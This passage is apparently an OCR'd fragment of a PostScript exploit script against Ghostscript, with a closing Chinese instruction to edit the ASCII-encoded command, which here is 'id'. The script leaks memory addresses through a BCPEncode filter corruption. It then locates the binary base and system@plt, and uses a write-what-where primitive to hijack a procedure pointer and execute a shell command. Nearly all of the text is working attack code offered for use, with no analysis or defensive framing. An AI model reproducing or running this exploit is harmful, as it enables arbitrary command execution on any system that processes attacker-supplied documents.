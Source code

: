 ```plain
 <4646464646464646> concatstrings % s->min_left
 1 1 80 {pop <47> concatstrings }  for% s->error_string
 <4848484848484848> concatstrings % s->cursor->r->ptr 
 exch concatstrings  % (where) s->cursor->r->limit -  also update s->cursor->w->ptr
 <4444444444444444> concatstrings % s->cursor->w->limit
 <4545454545454545> concatstrings % s->cbuf.  
 /openWriteFilter 5000 string /NullEncode filter /BCPEncode filter def
 openWriteFilter exch writestring
 openWriteFilter flushfile
 openWriteFilter exch writestring
}def

/readProc{
    leakMemory
    leakAsString
    dup (Found leak: 0x) exch concatstrings (\n) concatstrings print
    revision 9560 ge 
    {dup 375 subOffset} %start of bcpe stream}
    {dup 383 subOffset} 
    ifelse
    dup (BCPE stream: 0x) exch concatstrings (\n) concatstrings print
    dup 111 addOffset %start of read cursor-1
    dup (Start of read cursor -1 : 0x) exch concatstrings (\n) concatstrings print
    dup 81 addOffset %start of proc
    dup (Proc 0x) exch concatstrings (\n) concatstrings print
    dup 64 addOffset
    stringToAddress exch stringToAddress exch concatstrings
    exch stringToAddress
    writewhatwhere
    leakMemoryFilter () writestring leakMemoryFilter flushfile
    leakBuffer
    revision 9560 ge
    {2191 8 getinterval reverse leakAsString}
    {2199 8 getinterval reverse leakAsString}
    ifelse    
    dup (Found leak proc: 0x) exch concatstrings (\n) concatstrings print
}def 

readProc
1154176 subOffset
dup (Base r-x: 0x) exch concatstrings (\n) concatstrings print
6164 addOffset
dup (system@plt: 0x) exch concatstrings (\n) concatstrings print
exch 231 addOffset
dup (process : 0x) exch concatstrings (\n) concatstrings print
stringToAddress exch stringToAddress exch
writewhatwhere
leakMemoryFilter (aa) writestring leakMemoryFilter flushfile
```

并在此行修改想要执行的命令（ascall码），此处命令为id
